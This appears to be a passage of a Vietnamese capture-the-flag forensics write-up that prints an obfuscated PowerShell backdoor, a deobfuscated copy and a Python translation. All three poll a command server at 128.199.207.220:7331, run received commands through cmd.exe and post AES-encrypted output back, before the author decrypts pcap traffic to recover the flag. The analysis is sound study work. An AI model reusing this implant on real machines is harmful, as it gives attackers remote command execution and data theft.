    ${B`y`TES}             =   (  .("{1}{0}"-f ("{1}{2}{0}"-f 'e','arI','abl'),'v')  (("{1}{0}" -f'lvW','h')+'1') )."vAL`UE"::"u`Tf8".("{2}{0}{1}" -f 'yt','es',("{0}{1}" -f 'G','etB'))."INV`o`kE"(${r`O`FpdQRF99})
    ${ajujVR`AZ`99}        = .("{4}{0}{2}{5}{3}{1}"-f("{1}{0}" -f'-','eate'),'ct','Ae',("{1}{0}" -f'e','edObj'),'Cr',("{1}{0}{2}"-f 'Ma','s','nag')) ${VX`ZtM`Ff}
    ${qD`IqL`GaQ99}         = ${aJuj`VR`AZ99}.("{1}{2}{0}" -f'or',("{0}{1}{2}" -f'Create','En','c'),("{1}{0}" -f 't','ryp'))."in`VoKe"()
    ${lw`i`hYmIF99}     = ${Qd`i`qLgaq99}.("{3}{4}{1}{0}{2}"-f ("{0}{1}{2}"-f 'nal','Bl','o'),("{1}{0}" -f'mFi','for'),'ck','Tra','ns')."i`NvO`Ke"(${b`yTeS}, 0, ${b`y`Tes}."Le`NgTh");
    [byte[]] ${f`J`AxUWQ`N99} = ${A`Ju`jvR`Az99}."Iv" + ${lW`iHYmiF`99}
    ${aj`UJ`V`RAZ99}.("{1}{2}{0}"-f 'e','Dis','pos')."i`NVO`KE"()
     ${x`NFd}::"tOBase6`4`S`TRi`NG"."i`Nvoke"(${Fj`A`X`UWqN99})
}
function deC`Ry`PT(${VXzt`m`FF}, ${b`KJrxQ`Cf`99}) {
    
    ${bYT`Es}           =   (&("{0}{2}{1}" -f'v',("{0}{1}" -f 'i','able'),'AR')  ('xnf'+'d') )."Va`luE"::("{3}{1}{2}{0}" -f ("{0}{1}" -f'r','ing'),'o',("{2}{0}{1}"-f'e6','4St','mBas'),'Fr')."InV`OKE"(${Bk`jRx`qcF99})
    ${5t`MR`WpLuY}              = ${B`Y`Tes}[0..15]
    ${aJu`JVra`z99}      = .("{0}{2}{4}{3}{1}" -f ("{1}{0}"-f'rea','C'),("{1}{0}"-f 'ect','j'),("{0}{1}" -f't','e-Aes'),'dOb',("{0}{1}{2}"-f'Mana','g','e')) ${VxZTm`FF} ${5TMRw`p`LUY}
    ${MNDm`WYnB`99}       = ${AJ`Ujv`RA`z99}.("{4}{0}{2}{1}{3}" -f'ea','ry',("{0}{1}"-f'te','Dec'),("{0}{1}"-f'p','tor'),'Cr')."In`Voke"();
    ${A`htL`MYh`l99} = ${M`ND`mWynB99}.("{0}{3}{1}{4}{5}{2}"-f 'T',("{0}{1}"-f 'fo','rmFi'),("{1}{0}"-f'lock','B'),("{1}{0}" -f's','ran'),'na','l')."i`Nvo`kE"(${b`Y`TES}, 16, ${b`yTeS}."lENg`TH" - 16);
    ${A`J`UjVRAZ99}.("{1}{0}"-f 'se',("{1}{0}" -f 'spo','Di'))."IN`VO`KE"()
      ${HLV`W1}::"uT`F8"."G`E`TStri`Ng"(${AhtL`m`Y`hl99})."T`RIM"([char]0)
}
function Sh`ELL(${DfJz`1co}, ${y`o`8xm5}){
    
    ${Cw`zVY`VJ}                        = &("{1}{2}{0}" -f 'ct','Ne',("{0}{1}"-f 'w-O','bje')) ("{4}{3}{5}{0}{1}{2}"-f ("{5}{2}{0}{3}{4}{1}"-f'P','I','cs.','roc','essStart','i'),'n','fo',("{0}{1}"-f'ys','te'),'S',("{0}{2}{1}"-f'm.Di','st','agno'))
    ${Cw`ZVy`Vj}."FIlena`me"               = ${DFjZ1`co}
    ${C`W`zvYvj}."r`eDIRec`TsT`AnDaRdERr`OR"  = ${T`Rue}
    ${cwZ`V`YVJ}."ReDIRE`cT`s`TANdar`DoUTPUT" = ${tR`Ue}
    ${C`WZv`yVJ}."USEs`hELl`eXeC`U`Te"        = ${F`ALsE}
    ${c`wzvy`VJ}."aRg`UmENtS"              = ${yO8`x`m5}
    ${p}                            = .("{0}{2}{1}" -f'New',("{1}{0}"-f 'ject','Ob'),'-') ("{6}{0}{4}{3}{1}{2}{5}" -f("{1}{2}{0}" -f 'Dia','yst','em.'),("{1}{2}{0}"-f 'P','o','stics.'),'ro','n','g',("{0}{1}" -f 'ces','s'),'S')
    ${P}."s`T`ArTiN`FO"                  = ${C`W`zvYVj}
    
    ${p}.("{1}{0}" -f("{1}{0}"-f'art','t'),'S')."INvo`KE"() | &("{2}{1}{0}"-f'l',("{1}{0}" -f'Nul','t-'),'Ou')
    ${P}.("{2}{1}{0}{3}"-f'Exi',("{0}{1}"-f 'tF','or'),'Wai','t')."inv`oKE"()
    
    ${BHnxN`Ur`W99} = ${p}."sta`Ndar`dOu`TpUT".("{2}{0}{1}" -f("{1}{0}" -f 'En','To'),'d',("{0}{1}" -f 'R','ead'))."I`NV`OkE"()
    ${NmWkj`O`A`B99} = ${p}."St`A`N`dArde`RrOR".("{2}{1}{3}{0}"-f'nd','To',("{1}{0}" -f'd','Rea'),'E')."Inv`o`ke"()
    ${k`C`NjcQdL} = ('VAL'+'ID '+"$BhnXnUrW99`n$nmWKJOAb99")
    ${K`cnJcQ`Dl}
}
${FZvyCr}   = ("{0}{2}{3}{1}" -f '12',("{0}{1}{2}"-f '.2','07',("{1}{0}" -f'20','.2')),'8',("{1}{0}"-f'9','.19'))
${t`wFTrI} = ("{0}{1}"-f'7','331')
${VxzTmff}  = ("{2}{1}{4}{6}{3}{0}{7}{5}"-f 'XI',("{0}{1}{2}" -f 'w',("{0}{1}" -f 'jM7','m2'),'c'),("{0}{1}" -f 'd','/3K'),'u','GAt','+M=',("{0}{1}{2}" -f'L','I',("{1}{0}"-f("{1}{0}"-f'lhD','7K'),'6')),("{0}{2}{3}{1}"-f("{2}{1}{0}"-f 'KST','XR','/'),'R',("{0}{1}"-f'k',("{1}{0}"-f'lmJ','O')),("{0}{1}"-f 'XE','42')))
${n}    = 3
${C`w`j2TWh} = ""
${yC`RU`Tw} =   ${9`2Y7}::("{2}{0}{1}"-f("{1}{0}{2}"-f't','etHos','N'),'ame','G')."in`VoKE"()
${F`N`FFGXDzj}  = "p"
${D`FctD`FM}  = (("{0}{1}" -f'ht','tp') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/reg")
${kV`QBXbuR}  = @{
    ("{0}{1}"-f 'n','ame') = "$YCRUTw" 
    ("{1}{0}"-f 'pe','ty') = "$fNFFGXDZJ"
    }
${CWj2`TWh}  = (&("{4}{3}{2}{0}{1}"-f '-',("{1}{2}{0}"-f't','W','ebReques'),'ke','nvo','I') -UseBasicParsing -Uri ${d`Fct`DFM} -Body ${k`V`qBxbUr} -Method ("{1}{0}"-f'OST','P'))."co`N`TENT"
${TvYM`e`YrR99} = (("{0}{1}"-f'htt','p') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
${i`JfySE2}   = (("{1}{0}" -f 'p','htt') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
for (;;){
    
    ${M`A04XM`gY}  = (.("{2}{0}{3}{1}{4}" -f'n',("{0}{1}"-f'q','ues'),'I',("{0}{1}{2}" -f 'voke-W','e','bRe'),'t') -UseBasicParsing -Uri ${I`J`FYSE2} -Method 'GET')."cO`N`TeNt"
    
    if (-Not  ${UJX`Rc}::("{1}{0}{3}{2}"-f 'l',("{0}{1}"-f'IsN','ul'),("{1}{0}{2}" -f 'mpt','rE','y'),'O')."INvO`Ke"(${M`A04XmGy})){
        
        ${m`A04XM`gY} = .("{0}{1}" -f("{1}{0}" -f 'r','Dec'),'ypt') ${V`XZ`Tmff} ${Ma04X`MgY}
        ${mA0`4X`MgY} = ${ma0`4`XMgy}.("{1}{0}"-f'it','spl')."INv`okE"()
        ${FL`AG} = ${MA04`x`mgY}[0]
        
        if (${Fl`Ag} -eq ("{0}{1}" -f 'VAL','ID')){
            
            ${WB1`SWYo`je} = ${MA04`X`MgY}[1]
            ${yO8`X`M5S}    = ${Ma0`4XMgY}[2..${MA04x`mgY}."LeNg`TH"]
            if (${wb1s`Wyo`Je} -eq ("{1}{0}"-f'l',("{1}{0}" -f'hel','s'))){
            
                ${F}    = ("{0}{1}{2}"-f 'c',("{1}{0}" -f'e','md.'),'xe')
                ${y`O`8XM5}  = "/c "
            
                foreach (${a} in ${yo8`xM`5s}){ ${Yo8`x`m5} += ${a} + " " }
                ${KcNJ`C`QdL}  = .("{0}{1}"-f 'sh','ell') ${f} ${yo`8xM5}
                ${kCnjCQ`DL}  = .("{1}{2}{0}"-f 'pt','Enc','ry') ${VxztM`FF} ${kc`Nj`cqdl}
                ${kvqbX`B`Ur} = @{("{1}{0}" -f 'lt',("{0}{1}" -f 'r','esu')) = "$KcnJCQDl"}
                
                &("{3}{0}{1}{4}{2}" -f'ke','-W',("{0}{1}" -f 'qu','est'),("{0}{1}"-f'I','nvo'),("{1}{0}" -f 'bRe','e')) -UseBasicParsing -Uri ${tV`yM`Ey`RR99} -Body ${k`V`QbXbur} -Method ("{1}{0}" -f 'T','POS')
            }
            elseif (${Wb1Sw`Y`OJe} -eq ("{1}{0}{2}"-f 'owe','p',("{2}{1}{0}" -f 'l','l','rshe'))){
            
                ${f}    = ("{0}{3}{4}{1}{2}" -f ("{0}{1}"-f'p','owers'),'e','xe','he','ll.')
                ${yO`8X`m5}  = "/c "
            
                foreach (${a} in ${Y`o8xM5s}){ ${YO8x`m5} += ${a} + " " }
                ${kc`Nj`cqdL}  = &("{0}{1}" -f 'she','ll') ${F} ${yO`8`XM5}
                ${k`cn`jCQDL}  = .("{0}{1}"-f ("{0}{1}" -f 'En','cr'),'ypt') ${vXZT`mfF} ${KCN`jcqDl}
                ${KVqb`x`BUr} = @{("{1}{0}"-f ("{0}{1}" -f 'es','ult'),'r') = "$KcnJCQDl"}
                
                &("{0}{2}{4}{5}{1}{3}"-f'Inv',("{0}{1}"-f 'WebR','e'),'o',("{1}{0}" -f 'st','que'),'ke','-') -UseBasicParsing -Uri ${tvyMEY`R`R99} -Body ${k`V`qBXb`Ur} -Method ("{1}{0}" -f 'OST','P')
            }
            elseif (${wb`1swYO`Je} -eq ("{0}{1}"-f 'sl','eep')){
                ${n}    = [int]${yO`8Xm`5S}[0]
                ${kV`Q`BXbur} = @{("{0}{1}"-f're',("{0}{1}"-f 'su','lt')) = ""}
                &("{2}{0}{4}{1}{3}" -f 'o',("{1}{0}"-f 'Re','Web'),'Inv',("{0}{1}"-f'qu','est'),'ke-') -UseBasicParsing -Uri ${tV`Ymeyr`R`99} -Body ${Kv`QBXBur} -Method ("{1}{0}" -f 'T','POS')
            }
            elseif (${wb`1sWy`ojE} -eq ("{1}{0}"-f'e',("{1}{0}"-f'm','rena'))){
                
                ${c`wJ2t`Wh}    = ${Y`O8Xm`5S}[0]
                ${TVY`mey`Rr99} = (("{1}{0}" -f'tp','ht') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
                ${ijF`Ys`E2}   = (("{1}{0}"-f'ttp','h') + ':' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
            
                ${kV`Qb`XbUr}    = @{("{1}{0}" -f'lt',("{1}{0}" -f 'esu','r')) = ""}
                .("{0}{1}{4}{2}{3}" -f 'Inv',("{0}{1}{2}" -f'ok','e-','WebR'),'qu','est','e') -UseBasicParsing -Uri ${TVY`mEyR`R`99} -Body ${KvqBxb`Ur} -Method ("{1}{0}"-f 'OST','P')
            }
            elseif (${w`B1s`WYOJe} -eq ("{0}{1}" -f 'qu','it')){
                exit
            }
        }
    .("{1}{0}"-f 'p',("{0}{1}"-f'sl','ee')) ${N}
    }
}
```

</details>

- Vấn đề lại xảy ra, mã được sửa cho nhà phân tích khó đọc, em lại dùng công cụ `PowerDecode` để xoá các byte rác

<details>
<summary>
 Xem mã powershell 
</summary>

```
${8rT3WA}  = [tyPe]'sySTEm.seCUrItY.cryPTOGRaphY.CiphERMOde' ;SV '72j5O'  (  [TYpe]'sYstem.seCuriTY.cRYptoGRapHY.paDDingmOde'  ) ;   ${XNfD}=[tyPe]'System.cONVErT'  ;  ${HLvW1} =  [tYPe]'SYStEM.tEXt.EnCOdiNG';  SeT-iTem 'vARIabLE:92y7'  (  [Type]'SysteM.NEt.dnS')  ; ${UJXRc}=[tyPE]'StrinG' ;function CrEATe-AeSmanAGeDoBJeCt(${vxZTmff}, ${5TMRWpLUy}) {
    
    ${AJuJVRAZ99}           = New-Object 'System.Security.Cryptography.AesManaged'
    ${AJUjvrAZ99}.Mode      =   (  gEt-vARIAblE  ("8rt3Wa") -Value  )::"cBc"
    ${aJujVRAZ99}.PAddInG   =  ( Dir  'vARIable:72j5o'  ).VALUe::"zeRos"
    ${AJUJvrAz99}.BlOckSizE = 128
    ${AjuJvRAz99}.keysIze   = 256
    
    if (${5TMRWPluy}) {
        
        if (${5TmRWpLuy}.getType.iNVOke().nAME -eq 'String') {
            ${ajUjvRaZ99}.Iv =  (dir  'vaRIaBle:xNFd').vAlUe::'FromBase64String'.InVOKe(${5TMRWPlUy})
        }
        
        else {
            ${ajUjVraZ99}.IV = ${5tmRwPLUy}
        }
    }
    
    if (${VxZtMFF}) {
        
        if (${VXzTmfF}.getType.INvoKe().nAME -eq 'String') {
            ${ajUjVraZ99}.Key =  ( LS 'VariAble:XNFD' ).vAluE::'FromBase64String'.invOKe(${vxzTmFF})
        }
        
        else {
            ${AjUJVrAZ99}.key = ${vXzTmff}
        }
    }
    
    ${aJUjvRAZ99}
}
function eNCRYpT(${VxzTMFf}, ${ROFPdqRF99}) {
    
    ${ByTES}             =   (  varIable  'hlvW1' ).vALUE::"uTf8".GetBytes.INVokE(${rOFpdQRF99})
    ${ajujVRAZ99}        = Create-AesManagedObject ${VXZtMFf}
    ${qDIqLGaQ99}         = ${aJujVRAZ99}.CreateEncryptor.inVoKe()
    ${lwihYmIF99}     = ${QdiqLgaq99}.TransformFinalBlock.iNvOKe(${byTeS}, 0, ${byTes}.LeNgTh);
    [byte[]] ${fJAxUWQN99} = ${AJujvRAz99}.Iv + ${lWiHYmiF99}
    ${ajUJVRAZ99}.Dispose.iNVOKE()
     ${xNFd}::"tOBase64STRiNG".iNvoke(${FjAXUWqN99})
}
function deCRyPT(${VXztmFF}, ${bKJrxQCf99}) {
    
    ${bYTEs}           =   (vARiable  'xnfd' ).ValuE::'FromBase64String'.InVOKE(${BkjRxqcF99})
    ${5tMRWpLuY}              = ${BYTes}[0..15]
    ${aJuJVraz99}      = Create-AesManagedObject ${VxZTmFF} ${5TMRwpLUY}
    ${MNDmWYnB99}       = ${AJUjvRAz99}.CreateDecryptor.InVoke();
    ${AhtLMYhl99} = ${MNDmWynB99}.TransformFinalBlock.iNvokE(${bYTES}, 16, ${byTeS}.lENgTH - 16);
    ${AJUjVRAZ99}.Dispose.INVOKE()
      ${HLVW1}::"uTF8".GETStriNg(${AhtLmYhl99}).TRIM(' ')
}
function ShELL(${DfJz1co}, ${yo8xm5}){
    
    ${CwzVYVJ}                        = New-Object 'System.Diagnostics.ProcessStartInfo'
    ${CwZVyVj}.FIlename               = ${DFjZ1co}
    ${CWzvYvj}.reDIRecTsTAnDaRdERrOR  = ${TRue}
    ${cwZVYVJ}.ReDIREcTsTANdarDoUTPUT = ${tRUe}
    ${CWZvyVJ}.USEshELleXeCUTe        = ${FALsE}
    ${cwzvyVJ}.aRgUmENtS              = ${yO8xm5}
    ${p}                            = New-Object 'System.Diagnostics.Process'
    ${P}.sTArTiNFO                  = ${CWzvYVj}
    
    ${p}.Start.INvoKE() | Out-Null
    ${P}.WaitForExit.invoKE()
    
    ${BHnxNUrW99} = ${p}.staNdardOuTpUT.ReadToEnd.INVOkE()
    ${NmWkjOAB99} = ${p}.StANdArdeRrOR.ReadToEnd.Invoke()
    ${kCNjcQdL} = ('VALID '+"$BhnXnUrW99n$nmWKJOAb99")
    ${KcnJcQDl}
}
${FZvyCr}   = '128.199.207.220'
${twFTrI} = '7331'
${VxzTmff}  = 'd/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M='
${n}    = 3
${Cwj2TWh} = ""
${yCRUTw} =   ${92Y7}::'GetHostName'.inVoKE()
${FNFFGXDzj}  = "p"
${DFctDFM}  = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/reg")
${kVQBXbuR}  = @{
    'name' = "$YCRUTw" 
    'type' = "$fNFFGXDZJ"
    }
${CWj2TWh}  = (Invoke-WebRequest -UseBasicParsing -Uri ${dFctDFM} -Body ${kVqBxbUr} -Method 'POST').coNTENT
${TvYMeYrR99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
${iJfySE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
for (;;){
    
    ${MA04XMgY}  = (Invoke-WebRequest -UseBasicParsing -Uri ${IJFYSE2} -Method 'GET').cONTeNt
    
    if (-Not  ${UJXRc}::'IsNullOrEmpty'.INvOKe(${MA04XmGy})){
        
        ${mA04XMgY} = Decrypt ${VXZTmff} ${Ma04XMgY}
        ${mA04XMgY} = ${ma04XMgy}.split.INvokE()
        ${FLAG} = ${MA04xmgY}[0]
        
        if (${FlAg} -eq 'VALID'){
            
            ${WB1SWYoje} = ${MA04XMgY}[1]
            ${yO8XM5S}    = ${Ma04XMgY}[2..${MA04xmgY}.LeNgTH]
            if (${wb1sWyoJe} -eq 'shell'){
            
                ${F}    = 'cmd.exe'
                ${yO8XM5}  = "/c "
            
                foreach (${a} in ${yo8xM5s}){ ${Yo8xm5} += ${a}}
                ${KcNJCQdL}  = shell ${f} ${yo8xM5}
                ${kCnjCQDL}  = Encrypt ${VxztMFF} ${kcNjcqdl}
                ${kvqbXBUr} = @{'result' = "$KcnJCQDl"}
                
                Invoke-WebRequest -UseBasicParsing -Uri ${tVyMEyRR99} -Body ${kVQbXbur} -Method 'POST'
            }
            elseif (${Wb1SwYOJe} -eq ''){
            
                ${f}    = '.exe'
                ${yO8Xm5}  = "/c "
            
                foreach (${a} in ${Yo8xM5s}){ ${YO8xm5} += ${a}}
                ${kcNjcqdL}  = shell ${F} ${yO8XM5}
                ${kcnjCQDL}  = Encrypt ${vXZTmfF} ${KCNjcqDl}
                ${KVqbxBUr} = @{'result' = "$KcnJCQDl"}
                
                Invoke-WebRequest -UseBasicParsing -Uri ${tvyMEYRR99} -Body ${kVqBXbUr} -Method 'POST'
            }
            elseif (${wb1swYOJe} -eq 'sleep'){
                ${n}    = [int]${yO8Xm5S}[0]
                ${kVQBXbur} = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${tVYmeyrR99} -Body ${KvQBXBur} -Method 'POST'
            }
            elseif (${wb1sWyojE} -eq 'rename'){
                
                ${cwJ2tWh}    = ${YO8Xm5S}[0]
                ${TVYmeyRr99} = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/results/$cWJ2Twh")
                ${ijFYsE2}   = ('http:' + "//$FZVYCR" + ':' + "$TwFTRi/tasks/$cWJ2Twh")
            
                ${kVQbXbUr}    = @{'result' = ""}
                Invoke-WebRequest -UseBasicParsing -Uri ${TVYmEyRR99} -Body ${KvqBxbUr} -Method 'POST'
            }
            elseif (${wB1sWYOJe} -eq 'quit'){
                exit
            }
        }
    sleep ${N}
    }
}
```

</details>

- Lại tiếp tục dùng AI chuyển qua python 
<details>
<summary>
 Xem mã python
</summary>

```
import base64
import requests
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad
import subprocess
import time
from socket import gethostname
import dns.resolver

def create_aes_managed_object(key, iv=None):
    aes = AES.new(key, AES.MODE_CBC, iv) if iv else AES.new(key, AES.MODE_CBC)
    return aes

def encrypt(key, plaintext):
    aes = create_aes_managed_object(key)
    ciphertext = aes.encrypt(pad(plaintext.encode('utf-8'), AES.block_size))
    return base64.b64encode(ciphertext).decode('utf-8')

def decrypt(key, ciphertext):
    ciphertext_bytes = base64.b64decode(ciphertext)
    iv = ciphertext_bytes[:16]
    actual_ciphertext = ciphertext_bytes[16:]
    aes = create_aes_managed_object(key, iv)
    decrypted_bytes = unpad(aes.decrypt(actual_ciphertext), AES.block_size)
    return decrypted_bytes.decode('utf-8').strip()

def shell(command):
    result = subprocess.run(command, shell=True, capture_output=True, text=True)
    return result.stdout

encryption_key = base64.b64decode('d/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M=')
url_register = 'http://128.199.207.220:7331/reg'
url_results = 'http://128.199.207.220:7331/results/'
url_tasks = 'http://128.199.207.220:7331/tasks/'
name = gethostname()
type_ = "p"
variable_name = "92y7"
payload_register = {'name': name, 'type': type_}
variable_72j5o = "zeRos"
type_padding = "zeRos"

# Register the machine
response = requests.post(url_register, data=payload_register)
if response.status_code != 200:
    print("Failed to register the machine.")
    exit()

# Main loop
while True:
    response_tasks = requests.get(url_tasks)
    if response_tasks.status_code == 200:
        task = decrypt(encryption_key, response_tasks.text.strip())
        if task:
            task_parts = task.split()
            if task_parts[0] == 'VALID':
                command = task_parts[1]
                args = task_parts[2:]
                if command == 'shell':
                    result = shell(' '.join(args))
                    encrypted_result = encrypt(encryption_key, result)
                    payload_result = {'result': encrypted_result}
                    requests.post(url_results, data=payload_result)
                elif command == 'sleep':
                    time.sleep(int(args[0]))
                    payload_result = {'result': ""}
                    requests.post(url_results, data=payload_result)
                elif command == 'rename':
                    # Implement rename logic here
                    pass
                elif command == 'quit':
                    break
    time.sleep(int(n))

```

</details>

- Tại hàm chính hacker gọi encrypt_key của đoạn mã hoá aes là `base64.b64decode('d/3KwjM7m2cGAtLI67KlhDuXI/XRKSTkOlmJXE42R+M=')`
- Tiếp tục encrypt và gửi dữ liệu đến 128.199.207.220:7331 thông qua `post`
- Check HTTP trong wireshark để lấy được dữ liệu sau khi mã hoá.
- Bỏ qua cái reg vì nó không chưa dữ liệu, dùng tshark để xuất data ra

```
 tshark -r NoStarWhere.pcapng -Y "http.request.method == \"POST\" && frame.len>80" -Tfields -e urlencoded-form.value
```
- Đã có ciphertext rồi thì decrypt ra thôi
- Vì cái key và cái iv nó chứa dữ liệu không đọc được nên ta sẽ chuyển nó sang hex luôn
- 
- 
```
def decrypt(key, ciphertext):
    ciphertext_bytes = base64.b64decode(ciphertext)
    iv = ciphertext_bytes[:16]
    actual_ciphertext = ciphertext_bytes[16:]
    aes = create_aes_managed_object(key, iv)
    decrypted_bytes = unpad(aes.decrypt(actual_ciphertext), AES.block_size)
    return decrypted_bytes.decode('utf-8').strip()
```
- IV là 16 kí tự đầu sau khi decode base64 ciphertext
- 
- Sau khi decrypt thấy rằng có magic byte của file png ở đây 
- 
- 
> Flag : CHH{D0n't_w0rRy_n0_st@r_wh3rE}